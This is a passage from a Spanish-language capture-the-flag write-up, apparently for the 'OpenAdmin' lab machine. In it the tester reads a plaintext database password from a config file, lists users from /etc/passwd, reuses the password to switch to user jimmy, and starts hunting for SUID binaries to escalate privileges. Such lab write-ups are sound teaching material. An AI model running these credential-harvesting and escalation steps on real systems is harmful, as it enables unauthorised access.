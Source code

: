  ```bash
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>www-data@openadmin:/opt/ona/www/local/config$
 ```

Ahora vamos a ver que usuarios se encuentran a nivel de sistema, ya que es posible que la contraseña que tenemos sea de alguno de los usuarios:

 ```bash
 www-data@openadmin:/opt/ona/www/local/config$ cat /etc/passwd | grep "sh"
root:x:0:0:root:/root:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
www-data@openadmin:/opt/ona/www/local/config$
 ```

 Vamos a tratar de migrar al usuario **jimmy**:

 ```bash
 www-data@openadmin:/opt/ona/www/local/config$ su jimmy
Password: 
jimmy@openadmin:/opt/ona/www/local/config$ whoami
jimmy
jimmy@openadmin:/opt/ona/www/local/config$
 ```

 Ya somos el usuario **jimmy**. Ahora vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios.

```bash
jimmy@openadmin:/opt/ona/www/local/config$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
jimmy@openadmin:/opt/ona/www/local/config$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: error initializing audit plugin sudoers_audit
jimmy@openadmin:/opt/ona/www/local/config$ cd /
jimmy@openadmin:/$ find \-perm -4000 2>/dev/null                                                                                 
./usr/lib/openssh/ssh-keysign                                                                                                    
./usr/lib/eject/dmcrypt-get-device                                                                                               
./usr/lib/snapd/snap-confine                                                                                                     
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic                     
./usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                     
./usr/lib/policykit-1/polkit-agent-helper-1                     
./usr/bin/newgrp     
./usr/bin/pkexec                                                
./usr/bin/newgidmap                                             
./usr/bin/sudo                 
```